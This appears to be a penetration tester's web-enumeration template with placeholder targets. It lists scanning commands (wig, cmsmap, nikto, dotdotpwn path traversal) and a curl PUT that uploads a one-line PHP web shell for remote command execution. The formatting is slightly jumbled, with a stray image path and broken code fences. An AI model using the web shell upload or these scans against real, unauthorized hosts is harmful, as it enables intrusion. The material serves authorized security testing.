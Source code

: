 ```
wig-git http://INSERTIPADDRESS/path
```
#### Nikto scan

INSERTNIKTOSCAN

#### Directories

INSERTDIRBSCAN

#### Manual Scan

```
Step 1:
View Source!

Step 2: 
Robots.txt!
```
wig-git -a -q -t 5 INSERTIPADDRESS
 --proxy PROXY 

INSERTROBOTS
```
Step 3: 
Browse around and look for disclosed PII on site

*Place anything here
```



```
# CMS checker 
wig-git http://INSERTIPADDRESS -a -m
cmsmap-git -t http://INSERTIPADDRESS

# Nikto
nikto -h http://INSERTIPADDRESS

# Nikto with squid proxy
nikto -h INSERTIPADDRESS -useproxy http://INSERTIPADDRESS:4444

# Get header
curl -i INSERTIPADDRESS

# Get everything
curl -i -L INSERTIPADDRESS

# Check if it is possible to upload using put
curl -v -X OPTIONS http://INSERTIPADDRESS/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://INSERTIPADDRESS/test/shell.php

# Check for title and all links
dotdotpwn.pl -m http -h INSERTIPADDRESS -M GET -o unix

```
